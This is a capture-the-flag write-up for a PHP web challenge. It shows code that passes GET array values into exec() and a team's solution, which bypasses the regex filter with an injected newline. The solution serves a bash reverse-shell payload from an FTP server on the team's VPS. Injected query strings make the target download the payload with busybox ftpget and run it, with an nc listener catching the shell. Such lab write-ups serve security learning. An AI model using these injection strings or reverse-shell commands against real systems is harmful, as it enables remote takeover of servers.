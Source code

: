 # 5- Final
```
Medium: Web, 300 pts
```

## Description
```
Have fun
http://51.38.37.81:4043/
Flag: CTF_*
```
Content:
```php
<?php
    highlight_file("index.php");

    $user_inputs = $_GET['user_inputs'];
    for ( $i=0; $i<sizeof($user_inputs); $i++ ){
        if ( preg_match('/^\w+$/', $user_inputs[$i]) === 0 )
            exit();
    }
    $private_dsser = md5($user_inputs[0]);
    if ( !file_exists($private_dsser) )
        mkdir($private_dsser);
    chdir($private_dsser);
    array_shift($user_inputs);
    exec("/bin/true " . implode(" ", $user_inputs));
    echo $private_dsser;
?>
```


>It was all about this challenge. We finished second in the CTF for our country and eighth in Africa. The secret? "Without VPS you don't flag". Several online writeups are available for such a thing, but we will present our journey to you.

- To achieve this we must have installed pyftpdlib from python:

`$ pip3 install pyftpdlib`

- After, create a file containing the bash payload:

`$ echo 'bash -i >& /dev/tcp/0.0.0.0/9000 0>&1'` (change the ip by ip of the vps)

- To start the ftp server

`$ python -m pyftpdlib -p 21`

>It's a python module like http.server. 
it starts an ftp server under python. 
But it should be pointed out that the file name must not have `.` or something that will cause the preg_match check to fail. 
We will now obtain a reverse shell in order to have a shell on the vps. 

- Download payload file(the name is `1337`)

`?user_inputs[0]=e&user_inputs[1]=a%0a&user_inputs[2]=busybox&user_inputs[3]=ftpget&user_inputs[4]=**********&user_inputs[5]=1337` (`*` represents the IP address in number to avoid that the preg_match prevents the loading and `1337` is the name of the file)

- Listen on port 9000 to get the shell

`$ nc -nlvp 9000`

- Launch the payload on the server

`?user_inputs[0]=e&user_inputs[1]=a%0a&user_inputs[2]=bash&user_inputs[3]=1337`

After we have received the shell, we can display our flag: `CTF_Y0ukn0whow70R3ADc0d3`
